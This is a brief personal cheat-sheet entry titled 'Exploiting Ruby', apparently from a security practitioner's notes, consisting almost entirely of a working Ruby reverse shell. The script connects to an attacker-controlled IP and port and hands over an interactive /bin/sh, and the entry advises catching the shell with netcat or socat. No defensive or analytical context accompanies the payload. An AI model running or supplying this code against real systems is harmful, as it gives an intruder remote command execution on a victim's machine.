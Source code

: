# Exploiting Ruby

* **author**:: Nathan Acks  
* **date**:: 2022-07-11

A simple reverse shell:

```ruby
require "socket"

attacker_ip = "10.0.0.1"
attacker_port = 1234

f = TCPSocket.open(attacker_ip, attacker_port).to_i

exec sprintf("/bin/sh -i <&%d >&%d 2>&%d", f, f, f)
```

Catch it with netcat or socat.

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
* [Ruby - Socket Programming](https://www.tutorialspoint.com/ruby/ruby_socket_programming.htm)
